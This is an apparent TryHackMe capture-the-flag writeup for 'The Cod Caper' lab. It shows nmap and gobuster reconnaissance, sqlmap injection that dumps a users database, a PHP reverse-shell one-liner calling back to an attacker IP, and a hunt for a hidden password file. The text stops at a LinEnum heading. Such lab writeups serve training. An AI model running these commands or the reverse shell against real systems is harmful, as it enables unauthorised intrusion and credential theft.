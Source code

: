 #+TITLE: TryHackMe - The Cod Caper writeup

https://tryhackme.com/room/thecodcaper

* Scanning & Reconnaissance

	#+begin_src shell
		nmap -p 22,80 -sC -sV -vv 10.10.78.247

		PORT   STATE SERVICE REASON  VERSION
		22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
		| ssh-hostkey:
		|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
		| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDs2k31WKwi9eUwlvpMuWNMzFjChpDu4IcM3k6VLyq3IEnYuZl2lL/dMWVGCKPfnJ1yv2IZVk1KXha7nSIR4yxExRDx7Ybi7ryLUP/XTrLtBwdtJZB7k48EuS8okvYLk4ppG1MRvrVojNPprF4nh5S0EEOowqGoiHUnGWOzYSgvaLAgvr7ivZxSsFCLqvdmieErVrczCBOqDOcPH9ZD/q6WalyHMccZWVL3Gk5NmHPaYDd9ozVHCMHLq7brYxKrUcoOtDhX7btNamf+PxdH5I9opt6aLCjTTLsBPO2v5qZYPm1Rod64nysurgnEKe+e4ZNbsCvTc1AaYKVC+oguSNmT
		|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
		| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAmpmAEGyFxyUqlKmlCnCeQW4KXOpnSG6SwmjD5tGSoYaz5Fh1SFMNP0/KNZUStQK9KJmz1vLeKI03nLjIR1sho=
		|   256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
		|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFBIRpiANvrp1KboZ6vAeOeYL68yOjT0wbxgiavv10kC
		80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
		| http-methods:
		|_  Supported Methods: OPTIONS GET HEAD POST
		|_http-server-header: Apache/2.4.18 (Ubuntu)
		|_http-title: Apache2 Ubuntu Default Page: It works
		Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	#+end_src

* Enumerating Services

	As usual, enumerating common directories, file names and extensions on the website.

	#+begin_src shell
		gobuster dir -u http://10.10.78.247/ -w /usr/share/wordlists/dirb/common.txt -x php

		/.hta                 (Status: 403) [Size: 277]
		/.hta.php             (Status: 403) [Size: 277]
		/.htaccess            (Status: 403) [Size: 277]
		/.htpasswd            (Status: 403) [Size: 277]
		/.htaccess.php        (Status: 403) [Size: 277]
		/.htpasswd.php        (Status: 403) [Size: 277]
		/administrator.php    (Status: 200) [Size: 409]
		/index.html           (Status: 200) [Size: 10918]
		/server-status        (Status: 403) [Size: 277]
	#+end_src

	Let's take a look at 'administrator.php'!

* Web Exploitation

	#+begin_src shell
		sqlmap -u http://10.10.78.247/administrator.php --forms --batch --risk 1 --level 1
		sqlmap -u http://10.10.193.208/administrator.php --forms --batch --dump -D users
	#+end_src

* Command Execution

	 After login with credentials found via SQLI, we are presented with a form giving the ability to run commands. Let's start netcat and access it with the command below:

	 #+begin_src php
 php -r '$sock=fsockopen("10.9.1.137",3333);exec("/bin/sh -i <&3 >&3 2>&3");'
	 #+end_src

	 #+begin_src shell
		 nc -lvnp 3333

		 listening on [any] 3333 ...
		 connect to [10.9.1.137] from (UNKNOWN) [10.10.193.208] 45244
		 /bin/sh: 0: can't access tty; job control turned off
		 $ id
		 uid=33(www-data) gid=33(www-data) groups=33(www-data)
		 #+end_src

		 Let's search for *hidden* files...

	 #+begin_src shell
		 $ find / -name hidden 2>/dev/null
		 /var/hidden
		 $ find /var/hidden
		 /var/hidden
		 /var/hidden/pass
		 $ cat /var/hidden/pass
	 #+end_src

* LinEnum
